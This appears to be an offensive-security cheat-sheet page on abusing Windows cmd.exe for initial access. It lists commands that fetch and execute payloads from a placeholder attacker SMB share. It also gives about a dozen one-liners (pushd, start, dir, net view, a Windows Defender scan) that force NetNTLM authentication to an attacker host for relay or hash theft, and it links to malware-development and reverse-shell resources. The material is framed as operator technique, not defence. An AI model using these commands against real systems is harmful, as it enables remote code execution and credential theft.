 ```yaml
---
author(s):
  - Userware
tags:
  - initial-access
  - weaponization
  - client-side-attacks
  - living-off-the-land
  - windows
---
```

# Command Prompt

## 01 - Common Files

```
C:\Windows\System32\cmd.exe
C:\Windows\SysWOW64\cmd.exe
```

## 02 - Execute Payloads

> [!INFO] [Character Maximum Limit](https://learn.microsoft.com/en-us/troubleshoot/windows-client/shell-experience/command-line-string-limitation)
> The maximum length of characters in a string is 8192 characters when executing through a command prompt.

Execute commands.

```
C:\> cmd.exe /c <commands>
```

```
C:\> cmd.exe - < [<drive_letter>:\]path\to\payload.txt

C:\> cmd.exe /c - \\<attacker_IP>\path\to\payload.txt

C:\> cmd.exe /c < \\<attacker_IP>\path\to\payload.txt
```

Execute command to perform SMB authentication relay.

```
C:\> echo 1 > //<attacker_IP>/<share_name>

C:\> pushd \\<attacker_IP>\<share_name>

C:\> cmd.exe /k \\<attacker_IP>\<share_name>

C:\> cmd.exe /c \\<attacker_IP>\<share_name>

C:\> start \\<attacker_IP>\<share_name>

C:\> mkdir \\<attacker_IP>\<share_name>

C:\> type \\<attacker_IP>\<share_name>

C:\> dir \\<attacker_IP>\<share_name>

C:\> net.exe view \\<attacker_IP>

C:\> "C:\Program Files\Windows Defender\MpCmdRun.exe" -Scan -ScanType 3 -File \\<attacker_IP>\<share_name>\file.txt
```

TODO: Check the rest

```
find.exe, findstr.exe, [x]copy, move, replace.exe, del, rename and many more!
```

---
## References

### Backlinks

- [[03 - Malware Development/Global Helpers/Evasion/Obfuscation Techniques/Windows/Batch|Malware Development: Batch Obfuscation Techniques]]

### LOLBAS

- [LOLBAS: Cmd](https://lolbas-project.github.io/lolbas/Binaries/Cmd/)

### Source Repositories

- [r00t-3xp10it: CmdLine Scripts for Reverse TCP Shell Addicts](https://github.com/r00t-3xp10it/venom/wiki/CmdLine-%26-Scripts-for-reverse-TCP-shell-addicts)

### Osanda

- [Osanda: Places of Interest in Stealing NetNTLM Hashes](https://osandamalith.com/2017/03/24/places-of-interest-in-stealing-netntlm-hashes/)